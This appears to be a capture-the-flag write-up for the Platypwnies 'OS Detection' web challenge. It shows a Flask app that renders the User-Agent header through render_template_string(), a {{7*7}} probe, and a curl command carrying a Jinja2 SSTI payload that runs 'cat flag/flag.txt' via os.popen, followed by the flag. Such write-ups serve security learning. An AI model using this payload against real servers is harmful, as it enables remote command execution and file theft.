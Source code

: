 -----------

### CTF-:Platypwnies

-----------

![image](https://github.com/user-attachments/assets/e0583134-4dc6-4580-b4fa-7b524d34ab88)

-----------

### CHALLENGES-:

--------------

- Web
  - OS Detection

------------

### OS DETECTION

------------

![image](https://github.com/user-attachments/assets/849a3df5-ba5b-44a8-93ff-a1263f4b9621)

------------

-  I discovered the source code in route `/source`.

```bash
❯ curl http://10.71.6.5:5000/source
<pre>from flask import Flask, request, render_template, render_template_string
from ua_parser import user_agent_parser

app = Flask(__name__)

@app.route(&#34;/&#34;)
def home():
    user_agent = request.headers.get(&#39;User-Agent&#39;)
    try:
        parsed_string = user_agent_parser.Parse(user_agent)
        family = parsed_string[&#39;os&#39;][&#39;family&#39;]
        user_agent_hint = render_template_string(user_agent)
        return render_template(&#39;index.html&#39;, os=family, user_agent=user_agent_hint)
    except Exception as e:
        return render_template(&#39;failure.html&#39;, error=str(e))
    
@app.route(&#34;/source&#34;)
def source():
    code = open(__file__).read()
    return render_template_string(&#34;&lt;pre&gt;{{ code }}&lt;/pre&gt;&#34;, code=code)
    

if __name__ == &#34;__main__&#34;:
    # No debug, that would be insecure!
    #app.run(debug=True)
    app.run()
</pre>%
```

- The sink is stated below.

```python3
user_agent = request.headers.get(&#39;User-Agent&#39;)
    try:
        parsed_string = user_agent_parser.Parse(user_agent)
        family = parsed_string[&#39;os&#39;][&#39;family&#39;]
        user_agent_hint = render_template_string(user_agent)
        return render_template(&#39;index.html&#39;, os=family, user_agent=user_agent_hint)
```

- The code is vulnerable to  SSTI because the `User-Agent` header is passed to function `render_template_string()`.

```bash
❯ curl http://10.71.6.5:5000/ -H "User-Agent: {{7*7}}" | grep "49"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1672  100  1672    0     0   1751      0 --:--:-- --:--:-- --:--:--  1750
        <pre>49</pre>
```

- Flag-:`PP{h4ck3r-OS-d3t3ct3d::7pe6PXP-ZkPe}`

```bash
❯ curl http://10.71.6.5:5000/ -H "User-Agent: {{config.__init__.__globals__['__builtins__']['__import__']('os').popen('cat flag/flag.txt').read()}}" | grep "PP"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1706  100  1706    0     0   5082      0 --:--:-- --:--:-- --:--:--  5077
        <pre>PP{h4ck3r-OS-d3t3ct3d::7pe6PXP-ZkPe}</pre>
```


